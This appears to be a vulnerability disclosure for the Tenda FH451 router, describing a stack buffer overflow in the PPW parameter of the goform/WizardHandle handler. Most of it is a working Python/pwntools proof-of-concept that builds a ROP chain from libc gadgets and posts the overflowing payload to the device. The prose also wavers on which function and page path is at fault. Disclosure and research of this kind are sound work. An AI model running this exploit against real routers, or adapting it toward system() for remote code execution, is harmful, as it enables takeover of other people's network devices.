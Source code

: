 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/WizardHandle](http://0.0.0.0:80/goform/WizardHandle)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)
![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle2.png)
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle3.png)

This function accepts the `WANT` and `WANS` parameter from a POST request. Within `v45` == 2, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3C434(v30, v5)`;. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, which can lead to a program crash or potential exploitation.  
![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle4.png)
The disassembled code of the function `sub_3C434` is as follows. It can be observed that this function does not perform bounds checking. It copies the `result` parameter byte-by-byte into the `a2` pointer parameter, which may potentially lead to a stack overflow.

Cross-referenced location: from the `fromWizardHandle` function, routed to `WizardHandle`, at line 18.
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle5.png)
Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/AddressNat`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*524 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

ip = '0.0.0.0:80'
url = f"http://{ip}/goform/WizardHandle"
data = {"WANS":"-1","WANT":"2","PPW":payload}
ret = requests.post(url, data)
```

# reproduce
![Image 7](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle6.png)
![Image 8](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle7.png)
![Image 9](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle8.png)
